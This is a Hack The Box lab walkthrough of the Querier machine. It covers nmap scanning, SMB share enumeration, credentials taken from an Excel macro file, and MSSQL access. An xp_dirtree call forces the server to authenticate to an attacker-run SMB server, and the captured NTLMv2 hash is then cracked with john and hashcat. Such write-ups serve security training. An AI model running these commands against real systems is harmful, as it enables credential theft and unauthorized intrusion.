 ### HTB Querier   10.10.10.125

Welcome back to another HTB takedown.  This time we're going after Querier.

So let's get started.  Once again, as always, the good ol nmap.

```
(kali@kali)-$ sudo nmap -T4 -p- -Pn 10.10.10.125                        
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-06 08:38 EST
Nmap scan report for 10.10.10.125
Host is up (0.058s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 36.97 seconds
```

A couple of ports to peed at, let's give those a go.

```
(kali@kali)-$ sudo nmap -A -Pn -p 135,139,445,1433,5985,47001 10.10.10.125
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-06 08:40 EST
Nmap scan report for 10.10.10.125
Host is up (0.049s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.10.125:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: QUERIER
|     DNS_Domain_Name: HTB.LOCAL
|     DNS_Computer_Name: QUERIER.HTB.LOCAL
|     DNS_Tree_Name: HTB.LOCAL
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-11-06T13:34:15
|_Not valid after:  2054-11-06T13:34:15
|_ssl-date: 2024-11-06T13:40:41+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2019 (95%), Microsoft Windows Server 2012 (92%), Microsoft Windows Vista SP1 (92%), Microsoft Windows 10 1709 - 1909 (92%), Microsoft Windows Longhorn (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (91%), Microsoft Windows Server 2016 (91%), Microsoft Windows 10 1703 (91%), Microsoft Windows 7 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-11-06T13:40:37
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   43.17 ms 10.10.14.1
2   56.81 ms 10.10.10.125

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.31 seconds
```

So, looks like we have SMB and SQL.  Let's try smb first.

```
(kali@kali)-$ smbclient -L \\\\10.10.10.125\\    
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Reports         Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.125 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

Looks like Reports is the one we're gonna take a look at.  Of course, try them all but Reports looks like our winner.

```
(kali@kali)-$ smbclient \\\\10.10.10.125\\Reports
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 28 18:23:48 2019
  ..                                  D        0  Mon Jan 28 18:23:48 2019
  Currency Volume Report.xlsm         A    12229  Sun Jan 27 17:21:34 2019

                5158399 blocks of size 4096. 826798 blocks available
smb: \> cd ..
smb: \> pwd
Current directory is \\10.10.10.125\Reports\
smb: \> cd ..
smb: \> pwd
Current directory is \\10.10.10.125\Reports\
smb: \> get Currency Volume Report.xlsm 
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \Currency
smb: \> get "Currency Volume Report.xlsm"
getting file \Currency Volume Report.xlsm of size 12229 as Currency Volume Report.xlsm (53.8 KiloBytes/sec) (average 53.8 KiloBytes/sec)
```

And it was.  Went ahead and grabbed the file that was there.  And this was where I got stuck and had to go look.  So turns out, you can unzip .xlsm files.  So did that and what I got was this...

```
(kali@kali)-$ unzip Currency\ Volume\ Report.xlsm                        
Archive:  Currency Volume Report.xlsm
  inflating: [Content_Types].xml     
  inflating: _rels/.rels             
  inflating: xl/workbook.xml         
  inflating: xl/_rels/workbook.xml.rels  
  inflating: xl/worksheets/sheet1.xml  
  inflating: xl/theme/theme1.xml     
  inflating: xl/styles.xml           
  inflating: xl/vbaProject.bin       
  inflating: docProps/core.xml       
  inflating: docProps/app.xml
```

In a pentest, we would look through all of these, and I did.  I found an assortment of things in the xml files but nothing caught my eye.  So, stuck again, I went back to the video to find another trick I didn't know about.  HTB had me do the `strings` command on the .bin file.  The video had me `cat` out the file.  The `string` command gave it to me in a long skinny string of text while the `cat` command printed it out much more readable.  I think I like the `cat` command better.

![cat bin file](/Images/HTB9Querier/pic1.png)

Here we have the a Uid and a Pwd.  Let's see where that gets us.  I remember we had a ms-sql server running.  Let's give that a go.

```
(kali@kali)-$ mssqlclient.py QUERIER/reporting:'<password>'@10.10.10.125 -windows-auth                   
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
```

So we used `mssqlclient.py` with the domain/username with the password that we grabbed @ the IP address.  Then we specified the `-windows-auth` as our login type.  And that got us in here.

At this point, tried running `enable_xp_cmdshell` and it did not work.

```
SQL> enable_xp_cmdshell
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
SQL> 
```

So looks like we don't have permission for that.  But what we can also try is this.

```
(kali@kali)-$ smbserver.py -smb2support share share/
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
```

So we start up an SMB server on our machine.  And using the same principle as responder to grab hash credentials, we can initiate a connection from the sql server.

```
SQL> exec xp_dirtree '\\10.10.14.31\share'
subdirectory                                                                                                                                                                                                                                                            depth   
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   -----------   
```

Once we run that command, go back to the smb server running and we see the following.

![Hash](/Images/HTB9Querier/pic2.png)

And we have our NTLMv2 hash.

Now that we have a hash, we can go one of a couple ways.  We can use hash cat or any number of hash cracking tools.  Take the hash and save it into a text file.

To use John the Ripper, we do the following.

`john --format=netntlmv2 ntlmhash.txt --wordlist=/usr/share/wordlists/rockyou.txt`

This gives us the following output.

![John result](/Images/HTB9Querier/pic3.png)

We can also use HashCat.

`hashcat-6.2.6>hashcat.exe hash.txt rockyou.txt -O`

![Hashcat Result](/Images/HTB9Querier/pic4.png)

Took a sec to get hashcat working, had to try a few different ways but got it to work.






